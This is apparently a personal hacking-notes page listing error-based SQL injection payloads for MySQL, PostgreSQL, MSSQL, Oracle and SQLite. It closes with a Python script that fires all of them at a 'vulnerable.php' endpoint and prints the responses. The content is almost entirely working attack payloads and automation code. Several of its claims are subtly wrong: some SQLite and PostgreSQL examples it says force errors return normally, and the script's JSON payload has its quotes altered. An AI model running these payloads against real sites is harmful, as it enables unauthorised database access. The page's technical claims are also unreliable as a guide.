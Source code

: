 ```yaml
---
title: "Forcefully Generate Errors on Various DBMS"
tags: ['Hacking', 'SQLi']
date: 2024-10-03
toc: true
unlisted: true
---
```


## Advanced Methods


### Use of Invalid Functions

MySQL provides many functions that, when used incorrectly, can generate errors.

```
' AND EXP(~(SELECT * FROM (SELECT 1) t)) -- 
```

### Invalid Hexadecimal Conversion

Using invalid hexadecimal values can cause errors.

```
' AND 0xG1 -- 
```

### Subqueries in SELECT Clause

Use subqueries that return multiple rows in a single value context.

```
' AND (SELECT * FROM (SELECT 1,2) t) = 1 -- 
```

## PostgreSQL

### Invalid Regular Expression

PostgreSQL's regex functions can be used incorrectly to cause errors.

```
' AND 'a' ~ 'b[' -- 
```

### Invalid JSON Operations

Use JSON functions with invalid operations.

```
' AND jsonb_path_query_first('{"a":1}', '$.a') -- 
```

### Recursive CTE

Use recursive Common Table Expressions (CTE) incorrectly.

```
' AND WITH RECURSIVE t AS (SELECT 1 UNION ALL SELECT 1 FROM t) SELECT * FROM t -- 
```

## MSSQL

### Invalid XML Queries

MSSQL’s XML functions can generate errors when used with invalid XML.

```
; DECLARE @xml XML; SET @xml = '<root><a></a><b></b></root>'; SELECT @xml.value('(/root/c)[1]', 'INT') --
```

### Invalid Data Conversion

Conversion functions can cause errors when converting incompatible data types.

```
; SELECT CAST('text' AS INT) --
```

### SQL Injection with Error Functions

Use built-in error functions to generate errors.

```
; RAISERROR('Error generated', 16, 1) --
```

## Oracle

### Invalid Data Manipulation

Oracle’s specific functions and data manipulation can cause errors.

```
' UNION SELECT UTL_INADDR.get_host_address('invalid_host') FROM dual --
```

### Invalid XMLType Usage

Use XMLType improperly to cause errors.

```
' UNION SELECT XMLType('<invalid><xml>') FROM dual --
```

### Using `SYS.DBMS_ASSERT`

Leverage Oracle’s assertion package to force errors.

```
' UNION SELECT SYS.DBMS_ASSERT.noop('invalid_input') FROM dual --
```

## SQLite

### Invalid String Functions

SQLite’s string functions can generate errors when used improperly.

```
' UNION SELECT SUBSTR('text', -1, 1) --
```

### Invalid Mathematical Operations

Use mathematical functions with invalid inputs.

```
' UNION SELECT POW('text', 2) --
```

### Invalid Date Functions

Use date functions with incorrect parameters.

```
' UNION SELECT DATE('invalid_date') --
```

## Python Script to Force Errors

Automating Error Injection:

```
import requests

url = "http://example.com/vulnerable.php"
payloads = [
    # MySQL
    "' AND EXP(~(SELECT * FROM (SELECT 1) t)) -- ",
    "' AND 0xG1 -- ",
    "' AND (SELECT * FROM (SELECT 1,2) t) = 1 -- ",
    # PostgreSQL
    "' AND 'a' ~ 'b[' -- ",
    "' AND jsonb_path_query_first('{'a':1}', '$.a') -- ",
    "' AND WITH RECURSIVE t AS (SELECT 1 UNION ALL SELECT 1 FROM t) SELECT * FROM t -- ",
    # MSSQL
    "; DECLARE @xml XML; SET @xml = '<root><a></a><b></b></root>'; SELECT @xml.value('(/root/c)[1]', 'INT') -- ",
    "; SELECT CAST('text' AS INT) -- ",
    "; RAISERROR('Error generated', 16, 1) -- ",
    # Oracle
    "' UNION SELECT UTL_INADDR.get_host_address('invalid_host') FROM dual -- ",
    "' UNION SELECT XMLType('<invalid><xml>') FROM dual -- ",
    "' UNION SELECT SYS.DBMS_ASSERT.noop('invalid_input') FROM dual -- ",
    # SQLite
    "' UNION SELECT SUBSTR('text', -1, 1) -- ",
    "' UNION SELECT POW('text', 2) -- ",
    "' UNION SELECT DATE('invalid_date') -- ",
]

for payload in payloads:
    response = requests.get(url, params={"id": payload})
    print(f"Payload: {payload}")
    print(f"Response: {response.text}\n")
```
